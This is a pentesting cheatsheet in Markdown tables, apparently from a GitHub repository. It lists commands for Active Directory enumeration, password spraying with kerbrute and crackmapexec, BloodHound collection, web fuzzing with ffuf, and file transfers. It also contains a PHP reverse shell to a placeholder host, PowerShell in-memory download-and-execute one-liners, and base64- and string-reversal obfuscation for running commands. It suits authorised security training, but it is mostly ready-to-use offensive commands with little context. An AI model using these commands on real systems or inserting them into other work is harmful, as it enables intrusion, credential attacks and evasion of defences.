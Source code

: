 # Cheatsheet

| Command                                                                                                      | Description                                            |
| ------------------------------------------------------------------------------------------------------------ | ------------------------------------------------------ |
| `fping -asgq <subnet/cidr>`                                                                                  | Quick way to ping all hosts in a subnet on kali.       |
| `./kerbrute userenum -d <Domain> --dc <dc IP> <username wordlist> -o <result output>`                        | Kerbrute userenum syntax, given a username wordlist    |
| `crackmapexec smb <IP address> -u <username> -p <password> --pass-pol`                                       | Crackmapexec with valid creds to eval password policy. |
| `rpcclient -U "" -N <IP address> rpcclient $> enumdomuser`                                                   | RPC Client NULL authentication enum domain users.      |
| `net accounts`                                                                                               | Enum password policy on Windows                        |
| `crackmapexec smb <IP address> --users`                                                                      | CrackMapExec to find users in Windows domain           |
| `kerbrute passwordspray -d <Domain> --dc <IP Address> <users.txt> <password>`                                | Kerbrute password spray                                |
| `sudo crackmapexec smb <IP Address> -u <users.txt> -p <password> \| grep +`                                  | CrackMapExec password spray                            |
| `Get-MpComputerStatus`                                                                                       | Check AntiVirus                                        |
| `Get-AppLockerPolicy -Effective \| select -ExpandProperty RuleCollections`                                   | Check App Locker.                                      |
| `$ExecutionContext.SessionState.LanguageMode`                                                                | Find PowerShell Language Mode                          |
| `sudo crackmapexec smb <IP address> -u <username> -p <password> --users`                                     | Authenticated scan for more users.                     |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --groups`                                        | Authenticated scan for more groups.                    |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --loggedon-users`                                | Authenticated scan for logged on users.                |
| `sudo crackmapexec smb <IP address> -u <user> -p <password> --shares`                                        | Authenticated scan for shares.                         |
| `sudo crackmapexec smb <IP address> -u <user> -p <passowrd -M spider_plus --share <share>`                   | Authenticated scan to crawl target share               |
| `smbmap -u <user> -p <passowrd> -d <domain> -H <IP address>`                                                 | Authenticated scan to list shares.                     |
| `sudo bloodhound-python -u <user> -p <password> -ns <nameserver IP> -d <domain> -c all`                      | Authenticated Bloodhound all.                          |
| `"IEX(New-Object Net.WebClient).downloadString('<URL>')"`                                                    | PowerShell one-liner used to download a file.          |
| `<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<ip>/<port> 0>&1'");`                                         | PHP reverse shell                                      |
| `sudo python3 joomla-brute.py -u <url> -w <password list> -usr <username or user list>`                      | Joomla brute script                                    |
| **Reversed Commands**                                                                                        |                                                        |
| `echo 'whoami' \| rev`                                                                                       | Reverse a string                                       |
| `$(rev<<<'imaohw')`                                                                                          | Execute reversed command                               |
| **Encoded Commands**                                                                                         |                                                        |
| `echo -n 'cat /etc/passwd \| grep 33' \| base64`                                                             | Encode a string with base64                            |
| `bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)`                                                 | Execute b64 encoded string                             |
| **Reversed Commands**                                                                                        |                                                        |
| `"whoami"[-1..-20] -join ''`                                                                                 | Reverse a string                                       |
| `iex "$('imaohw'[-1..-20] -join '')"`                                                                        | Execute reversed command                               |
| **Encoded Commands**                                                                                         |                                                        |
| `[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))`                              | Encode a string with base64                            |
| `iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"` | Execute b64 encoded string                             |
## Ffuf
| **Command**                                                                                                                                       | **Description**          |
| ------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------ |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ`                                                                                         | Directory Fuzzing        |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/indexFUZZ`                                                                                    | Extension Fuzzing        |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ.php`                                                                                     | Page Fuzzing             |
| `ffuf -w wordlist.txt:FUZZ -u http://SERVER_IP:PORT/FUZZ -recursion -recursion-depth 1 -e .php -v`                                                | Recursive Fuzzing        |
| `ffuf -w wordlist.txt:FUZZ -u https://FUZZ.URL/`                                                                                                  | Sub-domain Fuzzing       |
| `ffuf -w wordlist.txt:FUZZ -u http://URL:PORT/ -H 'Host: FUZZ.URL' -fs FILE-SIZE`                                                                 | VHost Fuzzing            |
| `ffuf -w wordlist.txt:FUZZ -u http://URL:PORT/login.php?FUZZ=key -fs FILE-SIZE`                                                                   | Parameter Fuzzing - GET  |
| `ffuf -w wordlist.txt:FUZZ -u http://URL:PORT/login.php -X POST -d 'FUZZ=key' -H 'Content-Type: application/x-www-form-urlencoded' -fs FILE-SIZE` | Parameter Fuzzing - POST |
| `ffuf -w ids.txt:FUZZ -u http://URL:PORT/login.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs FILE-SIZE`       | Value Fuzzing            |
## File transfers
| **Command**                                                                                                        | **Description**                              |
| ------------------------------------------------------------------------------------------------------------------ | -------------------------------------------- |
| `Invoke-WebRequest <URL> -OutFile <output filename>`                                                               | Download a file                              |
| `IEX (New-Object Net.WebClient).DownloadString('<URL>')`                                                           | Execute a file in memory                     |
| `Invoke-WebRequest -Uri <URL> -Method POST -Body $b64`                                                             | Upload a file                                |
| `bitsadmin /transfer n <URL> <OUTPUT PATH>`                                                                        | Download a file using Bitsadmin              |
| `certutil.exe -verifyctl -split -f <URL>`                                                                          | Download a file using Certutil               |
| `wget <URL> -O <OUTPUT PATH>`                                                                                      | Download a file using Wget                   |
| `curl -o <OUTPUT PATH> <URL>`                                                                                      | Download a file using cURL                   |
| `php -r '$file = file_get_contents("<URL>"); file_put_contents("<FILENAME>",$file);'`                              | Download a file using PHP                    |
| `Invoke-WebRequest <URL> -UserAgent [Microsoft.PowerShell.Commands.PSUserAgent]::Firefox -OutFile "<OUTPUT FILE>"` | Invoke-WebRequest using a Firefox User Agent |